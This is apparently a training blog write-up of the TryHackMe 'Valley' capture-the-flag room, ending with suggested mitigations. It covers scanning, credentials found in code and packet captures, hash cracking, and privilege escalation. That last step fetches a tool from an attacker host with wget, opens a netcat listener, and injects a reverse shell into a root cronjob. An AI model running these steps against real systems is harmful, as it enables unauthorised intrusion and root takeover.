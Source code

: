 ```yaml
---
title: "TryHackMe - Valley"
categories:
  - Blog
tags:
  - TryHackMe
  - CTF
  - Training
---
```


This is a write-up for the [Valley](https://tryhackme.com/room/valleype) room on [TryHackMe](https://tryhackme.com/).

Let's jump right in!

# Reconnaissance
First, I performed an nmap scan of the target:
`$ nmap -A <TARGET IP>`

The results show two open ports:
- `22-ssh`
- `80-http`

Next, I ran:
`$ namp -A -p- <TARGET IP>`

I let that run while I did a walkthrough of the web application. 
- I was able to navigate to the following:
    - `/gallery/gallery.html`
        - Each picture in the gallery page opens from `/static/#`, where `#` is the picture's number. There are 18 pictures on the gallery page, numbered 1-18
    - `/pricing/pricing.html`

# Enumeration
Next I ran feroxbuster on the target to see if there are any other directories to be found:
`$ feroxbuster -u http://<TARGET IP> -w usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt`

The results of this scan showed:
- `/gallery` `/pricing` and `/static` all returned code `301`, indicating a redirect.
- `/pricing/note.txt`
    - Interesting...

Navigating to `http://<TARGET IP>/pricing/note.txt` we are shown a note from "RP" to "J," asking them to stop leaving notes randomly on the website.

Recalling that the `/static` directory was serving up the gallery photos, identifying them with a numeric value, let's try a different wordlist on this directory, using gobuster for simplicity:
`$ gobuster dir -u http://<TARGET IP>/static -w /usr/share/wordlists/wfuzz/general/big.txt`

This reveals all of the expected gallery pictures (1-18), as well as a page titled `00`.

Navigating to `http://<TARGET IP>/static/00` reveals:
```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```
Alright, another clue. Navigating to `http://<TARGET IP>/dev1243224123123` reveals a login page. Before getting ahead of myself, I decided to check for low hanging fruit. I checked the source of the page and navigated to `dev.js` from there. 

In the source of `dev.js` I found a username and password:
```
if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
```
# Access
I used these credentials to login and was brought to another note:
```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```
Now I checked the results of the `nmap -A -p-` command that I started way back, and found an `ftp` server running on port `37370`.

Drawing on the mention of reusing credentials, I tried to access the `ftp` server with the username and password I found:
`$ ftp <TARGET IP> 37370`

Access was granted and I found 3 `pcapng` files. I used the `get` command to download each file to my machine.

I opened each `pcapng` file in Wireshark, and scanned for anything interesting.
The `siemFTP.pcapng` file contains an Anonymous login to the `ftp` server. 
The `siemHTTP1.pcapng` file is mostly filled with TLS encrypted data. I filtered the data by `http` and did find some traffic in cleartext, but nothing of use. 
I filtered `siemHTTP2.pcapng` by `http` and noticed a `POST` request at packet 2335. After digging into this packet I found more credentials:
`"uname" = "valleyDev"`
`"psw" = "ph0t0s1234"`

I tried using these credentials on the web app login page, and the `ftp` server, but was not successful. So I then pivoted to port 22 running `ssh`:
`$ ssh valleyDev@<TARGET IP>`

Access granted!

Now that we have system access, let's find the first flag. It's right in the current user directory, so just `cat` it out:
`$ cat user.txt`

Now let's look around a bit more. I went back one directory level, to check for other users, and found a file: `valleyAuthenticator`

# Privilege Escalation: Horizontal
I ran `file` command on `valleyAuthenticator`:
`valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header`

I tried executing the file on the target, and was prompted to enter my username and password. I tried all credentials collected thus far, but could not find valid credentials.

I decided to copy the executable back to my local machine, for further analysis:
- End the ssh session, and use `scp` from my local machine
    - `$ scp valleyDev@<TARGET IP>:/home/valleyAuthenticator .`

Now that I have the executable on my machine, I first ran `strings` on it:
`$ strings valleyAuthenticator`

This reveals the string `UPX!` twice at the bottom. [UPX](https://upx.github.io/) is a packer for executibles, which may explain why `strings` returned only gibberish. So next I will unpack the file and try running strings again:
- `$ upx -d valleyAuthenticator`
- `$ strings valleyAuthenticator`
    - Now I am seeing actual human-readable strings, let's try to use `grep` to find any credentials, and I'll use `-B` and `-A` to see more context.
- `$ strings valleyAuthenticator | grep pass -B 10 -A 10`
    - This reveals two hashes that may correlate to the "Username" and "Password" fields below them:
        - `e6722920bab2326f8217e4bf6b1b58ac`
        - `dd2921cc76ee3abfd2beb60709056cfb`

After finding these hashes I turned to [CrackStation](https://crackstation.net/) to try and crack them. This revealed another set of credentials:
- `valley`
- `liberty123`

I tried accessing the system with these credentials over `ssh` and was granted access!

Now let's get `root`.

# Privilege Escalation: Vertical
First I tried running `sudo -l` to see if user `valley` can run anything as sudo, but unfortunately I do not have the ability.
Next, I turned to one of my favorite tools: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Since I already have `linpeas.sh` on my machine, I navigated to the directory it is located in, and started a Python server on port 9999 using:
`$ python3 -m http.server 9999`

Then, on the target machine, I navigated to the `/tmp` directory, and downloaded `linpeas.sh`:
`$ wget <ATTACKER IP>:9999/linpeas.sh`

Next, I made it executable:
`$ chmod +x linpeas.sh`

And, then executed it:
`$ ./linpeas.sh`

LinPEAS often returns an overwhelming amount of data. Scanning through the results, I found that there is a cronjob running `/photos/script/photosEncrypt.py` every minute, and it is running it as `root`. Further, I have write permission to this script.
I used `nano` to figure out what this script is doing, and it appears to be encrypting any new photos on the system to Base64. 

The technique I will use will be to add a reverse shell to `photosEncrypt.py`. For the script, I used `Python3 Shortest` from [Reverse Shell Generator](https://www.revshells.com/).

Before adding this script to `photosEncrypt.py`, I started a listener on my local machine:
`nc -lvnp 8888`

With my listener running, I pasted the reverse shell into `photosEncrypt.py` and saved the file.

After about a minute, I was granted a shell as `root` on the system. I then navigated to `/root` and finally:
`$ cat root.txt`

# Conclusion
This was an interesting CTF. The engagement began easily enough, with "hidden" notes in a web application, to hard coded credentials, then escalated to more advanced concepts, like unpacking and analyzing executables.

## Suggested Mitigations
The most obvious mitigation for this organization would be to sanitize their web application, removing the notes, as well as the credentials hardcoded into `dev.js`. Beyond this, I would recommend revoking write permission `photosEncrypt.py` all users but `root`.